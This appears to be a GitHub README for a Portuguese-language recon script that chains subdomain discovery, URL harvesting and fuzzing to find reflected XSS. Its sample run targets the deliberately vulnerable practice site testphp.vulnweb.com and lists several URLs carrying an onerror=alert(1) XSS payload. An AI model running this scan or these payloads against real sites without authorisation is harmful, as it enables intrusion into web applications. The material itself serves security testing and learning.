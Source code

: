 # hsctch

#Acessar a pasta onde baixou o arquivo

#Executa o comando abaixo:

#python3 /root/reconx-hsctch.py 

#Digite o domínio alvo (exemplo: dominio.com.br): 

testphp.vulnweb.com



_    _  _____  _____ _______ _____ _    _
| |  | |/ ____|/ ____|__   __/ ____| |  | |
| |__| | (___ | |       | | | |    | |__| |
|  __  |\___ \| |       | | | |    |  __  |
| |  | |____) | |____   | | | |____| |  | |
|_|  |_|_____/ \_____|  |_|  \_____|_|  |_|

                                           

Executando: 

Executando assetfinder
Comando: assetfinder -subs-only testphp.vulnweb.com | anew subdomains.txt
Saída: 
Executando assetfinder concluído com sucesso.

Executando: Executando httprobe
Comando: cat subdomains.txt | httprobe | tee -a host.txt
Saída: http://testphp.vulnweb.com

Executando httprobe concluído com sucesso.
Executando: Executando waybackurls
Comando: cat host.txt | waybackurls | tee -a endpoint.txt

Executando freq para encontrar possíveis XSS concluído com sucesso.
Executando: Buscando por XSS FOUND
Comando: grep 'XSS FOUND' possible_xss.txt > resultado.txt
Saída:
Buscando por XSS FOUND concluído com sucesso.
Busca concluída.

#ls

endpoint.txt  host.txt  possible_xss.txt  resultado.txt  subdomains.txt  xss_fuzz.txt

#cat resultado.txt

XSS FOUND: http://testphp.vulnweb.com/showimage.php?file=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22

XSS FOUND: http://testphp.vulnweb.com:80/hpp/index.php?pp=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22

XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?aaaa%2F=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22&p=%22>

XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?p=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22

XSS FOUND: http://testphp.vulnweb.com/hpp/params.php?aaaa%2F=%22%22%3E%3Cimg+src%3Dx+onerror%3Dalert%281%29%3E%22&p=%22>
